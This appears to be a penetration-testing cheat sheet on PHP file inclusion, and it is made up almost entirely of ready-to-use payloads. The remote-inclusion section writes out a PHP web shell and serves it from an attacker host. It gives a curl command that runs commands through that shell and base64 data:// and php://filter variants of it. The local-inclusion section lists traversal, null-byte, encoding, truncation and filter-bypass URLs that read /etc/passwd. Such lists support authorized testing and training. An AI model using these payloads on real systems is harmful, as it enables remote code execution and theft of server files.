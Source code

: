 ```yaml
---
icon: file-code
---
```


# File Inclusion

## Remote File Inclusion (RFI)

If we find a way to include a remote file, we could try to include php code to execute commands on the host

```powershell
http://10.10.10.10/index.php?page=http://<attacker>/shell.txt
```

We could serve a malicious PHP code so that the host interprets it.

<pre class="language-bash"><code class="lang-bash">echo '&#x3C;?php system($_GET["cmd"]);?>' > shell.txt
python3 -m http.server 80
<strong>curl 'http://10.10.10.10/index.php?page=http://&#x3C;attacker>/shell.txt&#x26;cmd=&#x3C;comand>'
</strong></code></pre>

If the server were blocking access to external resources, we could try using the `data://` wrapper to inject PHP code as base64.

{% code overflow="wrap" %}
```powershell
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K

php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K
```
{% endcode %}

## Local File Inclusion (LFI)

### Absolute Path

```powershell
http://10.10.10.10/index.php?page=/etc/passwd
```

### Relative Path Traversal

```powershell
http://10.10.10.10/index.php?page=../../../etc/passwd
```

### Null Byte

```powershell
http://10.10.10.10/index.php?page=../../../etc/passwd%00
```

### Encoding

```powershell
http://10.10.10.10/index.php?page=%252e%252e%252fetc%252fpasswd
http://10.10.10.10/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### Absolute Path

```powershell
http://10.10.10.10/index.php?page=/etc/passwd
```

### Truncation

```powershell
http://10.10.10.10/index.php?page=../../../etc/passwd......[ADD MORE]
http://10.10.10.10/index.php?page=../../../[ADD MORE]../../../etc/passwd
```

### Filtered characters

```powershell
http://10.10.10.10/index.php?page=....//....//....//etc/passwd
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)\
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
